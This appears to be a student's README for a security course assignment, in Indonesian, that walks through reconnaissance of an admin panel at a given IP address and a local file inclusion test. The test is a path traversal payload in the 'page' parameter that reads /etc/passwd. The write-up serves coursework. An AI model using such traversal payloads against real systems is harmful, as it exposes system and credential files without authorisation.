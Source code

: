 # cs-assignment-5

## Active Reconaissance

menganalaisa url yang ada pada http://157.245.157.217/ didapatkan

http://157.245.157.217/admin/

http://157.245.157.217/admin/dashboard.php

http://157.245.157.217/admin/tambah_data.php

http://157.245.157.217/admin/dashboard.php?page=jumlah_berita.php

dari hasil reconaissance didapatkan url yang memiliki kerentanan

http://157.245.157.217/admin/dashboard.php?page=jumlah_berita.php

## LFI

Mengecek LFI vulnerability dengan menggunakan payload seperti di bawah

http://157.245.157.217/admin/dashboard.php?page=../../../../etc/passwd

didapatkan hasil sebagai berikut

![image](https://user-images.githubusercontent.com/6330046/187918848-074bb426-0863-4c25-b22a-f1aa62bdf3ce.png)
